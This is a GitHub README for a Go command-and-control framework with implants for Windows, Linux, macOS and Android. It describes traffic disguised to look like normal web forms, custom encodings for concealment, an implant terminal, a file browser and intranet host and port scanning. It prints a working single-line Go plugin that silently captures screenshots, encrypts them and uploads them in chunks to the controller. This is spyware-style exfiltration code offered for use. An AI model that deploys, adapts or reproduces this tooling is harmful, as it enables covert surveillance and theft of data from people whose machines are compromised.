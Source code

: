 ![start.png](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/start.png)

## lain command-control-frame work

golang framework,agent it supports platforms such as Windows linux、macos、Android。 The currently supported communication protocols are https \ http

### Features

Custom server error response

sharing host to players

Custom CSS file

Multiplayer-mode

Dynamic-encryption

Cross-platform

intranet-information-collection

File Browser

Segmented file transfer

web-ui

Customize Plugins code

group jobs

jobs、result cache

msg queue operation

Customize implants request parameters

Client history file directory cache

Access control whitelist

Customize log language messages

Customize all server path

### Getting Started

```json
{
    "users": [
        {
            "username": "aaf95bdd47f00d8435c49185",
            "password": "dfb95aac49185dd47f008435"
            //Change the password and username field to md5 encryption and remove the last 8 digits
        }
    ]
}
```

```cmd
PS C:\Users\Administrator\Desktop\lain_c2-main> .\server.exe -h
Usage of C:\Users\Administrator\Desktop\lain_c2-main\server.exe:
  -DefaultCert
        Use default public and private keys
  -cert string
        Customize public key path
  -css string
        Use default css file
  -css-route string
        customize web css (default "lain.css")
  -http
        Use HTTP instead of HTTPS
  -js-route string
        customize web js (default "lain.js")
  -key string
        Customize private key path
  -p string
        Port (default "443")
  -resp-error string
        web error resp (default "404 page not found")
  -title string
        web ui title (default "connect")
  -ui-route string
        web ui route (default "server")
  -web-route string
        backend communication routing (default "user_index")
```

![image-20250722224250819](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/help.png)

### Start server

Open the listening c2 service port. In order to better conceal and simulate real traffic, all traffic is get and post forms, write the request parameters for communication with the implant, and the parameters must not be repeated. Then select http\https

![lain_c2/html/image-1.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-1.png)

After the update, a custom Base64 encoding feature has been added. It supports generating either a random encoding table or a user-provided table that conforms to the Base64 rules. Each listening service is associated with a unique encoding table.

![lain_c2/html/image-2.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-2.png)

Click the corresponding platform link to generate the implant code

![lain_c2/html/image-3.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-3.png)

### Plugin Code into Implants

Each listening service inserts the same plug-in code

![lain_c2/html/image-6.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-6.png)

plugin code be like this,the top is the plugin code, then you must select the number of parameters (not less than the actual parameters), compress the Go language code into one line and enter the necessary parameters into the input box. The last input box is the description of the parameters

![lain_c2/html/image-4.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-4.png)

 the description of the parameters: msg1, msg2; description of msg1 parameters, description of msg2 parameters (the corresponding parameter descriptions are separated by check marks and corresponding indexes)

![lain_c2/html/image-9.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-9.png)

Plugin code for different platforms

![lain_c2/html/image-8.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-8.png)

Windows

WindowsJpg

Parameter count 4

interval,duration,quality,slices

```go
intervalSec,err:=strconv.Atoi(msg1);if err!=nil||intervalSec<=0{intervalSec=3};durationSec,err:=strconv.Atoi(msg2);if err!=nil||durationSec<=0{durationSec=30};quality,err:=strconv.Atoi(msg3);if err!=nil||quality<1||quality>100{quality=80};intSize,err:=strconv.Atoi(msg4);if err!=nil||intSize<1048576{intSize=1048576};frameInterval:=time.Duration(intervalSec)*time.Second;duration:=time.Duration(durationSec)*time.Second;numCaptures:=int(duration/frameInterval);bounds:=screenshot.GetDisplayBounds(0);for i:=1;i<screenshot.NumActiveDisplays();i++{bounds=bounds.Union(screenshot.GetDisplayBounds(i))};for i:=0;i<numCaptures;i++{img,err:=screenshot.CaptureRect(bounds);if err!=nil{continue};jpegBuf:=new(bytes.Buffer);err=jpeg.Encode(jpegBuf,img,&jpeg.Options{Quality:quality});if err!=nil{continue};fileContent:=EncryptDecrypt(jpegBuf.Bytes());fileSize:=len(fileContent);start:=0;end:=intSize;for start<fileSize{if end>fileSize{end=fileSize};str_encry:=user+"^"+strconv.Itoa(intSize)+"^"+strconv.Itoa(fileSize)+"^"+strconv.Itoa(start)+"^"+strconv.Itoa(end);data_encry:=get_encry_s(&str_encry);chunk:=fileContent[start:end];var buffer bytes.Buffer;writer:=multipart.NewWriter(&buffer);filename:=time.Now().Format("20060102_150405")+".jpg";encFilename:=get_encry_s(&filename);part,err:=writer.CreateFormFile("/*upload*/",encFilename);if err!=nil{break};_,err=io.Copy(part,bytes.NewReader(chunk));if err!=nil{break};writer.WriteField("/*uid*/",uid);writer.WriteField("/*result*/",data_encry);writer.Close();url:=protocol+master+"//*Path*/?/*option*/=/*upload*/";req,err:=http.NewRequest("POST",url,&buffer);if err!=nil{break};req.Header.Set("Content-Type",writer.FormDataContentType());req.Header.Set("Range","bytes="+strconv.Itoa(start)+"-"+strconv.Itoa(end-1));resp,err:=client.Do(req);if err!=nil{break};resp.Body.Close();if resp.StatusCode!=http.StatusOK{break};start=end;end=start+intSize;time.Sleep(time.Duration(delay)*time.Second)};time.Sleep(frameInterval)}
```



### change Implant info

Modify the input directly and press the Save Change button

![lain_c2/html/image-7.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-7.png)

### Implant Terminal

![lain_c2/html/image-10.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-10.png)

### File Browser

![lain_c2/html/image-11.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-11.png)

### sniff host choose port

![lain_c2/html/image-12.png at main · Mazzy-Stars/lain_c2](https://github.com/Mazzy-Stars/lain_c2/raw/main/html/image-12.png)

    scan host [target 192.168.1(1,20,45...)or(1-253)]	[range(1,20,45...)or(1-65534)]	[delay])
    scan port [target 192.168.1.1] [range(1,20,45...)or(1-65534)]	[delay])
